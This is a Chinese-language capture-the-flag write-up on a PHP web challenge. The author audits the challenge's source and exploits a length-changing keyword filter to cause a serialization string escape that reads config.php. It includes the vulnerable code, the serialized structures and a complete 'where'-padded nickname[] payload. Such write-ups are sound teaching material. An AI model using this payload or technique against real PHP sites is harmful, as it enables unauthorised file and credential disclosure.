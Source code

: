 ![[Pasted image 20221219085611.png|500]]

---
首页长这样

![[Pasted image 20221219085636.png|200]]

试密码和`sql`注入没试出来，八成是要扫目录

![[Pasted image 20221219105158.png|500]]

下载下来

![[Pasted image 20221219113827.png|300]]

访问`/register.php`进行一个账号的注册

![[Pasted image 20221219113932.png|200]]

来到`/profile.php`，然后又跳转到`/update.php`

![[Pasted image 20221219114033.png|200]]

有一个`upload`文件夹，`update.php`可以上传图片

---
`update.php`的关键代码
```php
$username = $_SESSION['username'];
if(!preg_match('/^\d{11}$/', $_POST['phone']))
	die('Invalid phone');

if(!preg_match('/^[_a-zA-Z0-9]{1,10}@[_a-zA-Z0-9]{1,10}\.[_a-zA-Z0-9]{1,10}$/', $_POST['email']))
	die('Invalid email');

if(preg_match('/[^a-zA-Z0-9_]/', $_POST['nickname']) || strlen($_POST['nickname']) > 10)
	die('Invalid nickname');

$file = $_FILES['photo'];
if($file['size'] < 5 or $file['size'] > 1000000)
	die('Photo size error');

move_uploaded_file($file['tmp_name'], 'upload/' . md5($file['name']));
$profile['phone'] = $_POST['phone'];
$profile['email'] = $_POST['email'];
$profile['nickname'] = $_POST['nickname'];
$profile['photo'] = 'upload/' . md5($file['name']);

$user->update_profile($username, serialize($profile));
echo 'Update Profile Success!<a href="profile.php">Your Profile</a>';
```
最后向`$user->update_profile`传递了经过序列化的`$profile`

`update_profile`在`class.php`中
```php
public function update_profile($username, $new_profile) {
	$username = parent::filter($username);
	$new_profile = parent::filter($new_profile);

	$where = "username = '$username'";
	return parent::update($this->table, 'profile', $new_profile, $where);
}
```
调用了`parent::filter`
```php
public function filter($string) {
	$escape = array('\'', '\\\\');
	$escape = '/' . implode('|', $escape) . '/';
	$string = preg_replace($escape, '_', $string);

	$safe = array('select', 'insert', 'update', 'delete', 'where');
	$safe = '/' . implode('|', $safe) . '/i';
	return preg_replace($safe, 'hacker', $string);
}
```
对序列化结果进行过滤（大喜

八成是字符串逃逸了

利用`nickname`制造逃逸，通过传递数组绕过`preg_match`

`where`是5个字符，`hacker`是6个字符，利用对`where`的过滤把`nickname`中的非法字符顶出去

目标是读取`config.php`
```php
<?php
	$config['hostname'] = '127.0.0.1';
	$config['username'] = 'root';
	$config['password'] = '';
	$config['database'] = '';
	$flag = '';
?>
```

构造`payload`
```php
<?php
	$profile['phone'] = '18888888888';
	$profile['email'] = 'somebody@host.com';
	$profile['nickname'] = array('nickname');
	$profile['photo'] = 'upload/sdfia';
	echo serialize($profile);
?>
```

> a:4:{s:5:"phone";s:11:"18888888888";s:5:"email";s:17:"somebody@host.com";s:8:"nickname";a:1:{i:0;s:8:"nickname";}s:5:"photo";s:12:"upload/sdfia";}

我们需要逃逸的内容
```
";}s:5:"photo";s:10:"config.php";}
```
长度为34

于是`payload`为
```
nickname[]=wherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere";}s:5:"photo";s:10:"config.php";}
```

![[Pasted image 20221219184827.png|500]]

![[Pasted image 20221219184912.png|500]]

![[Pasted image 20221219184953.png|500]]

![[Pasted image 20221219185026.png|500]]

![[Pasted image 20221219185118.png|700]]

#Web #PHP #目录爆破 #代码审计 #反序列化 #字符串逃逸 #HTTP #编码 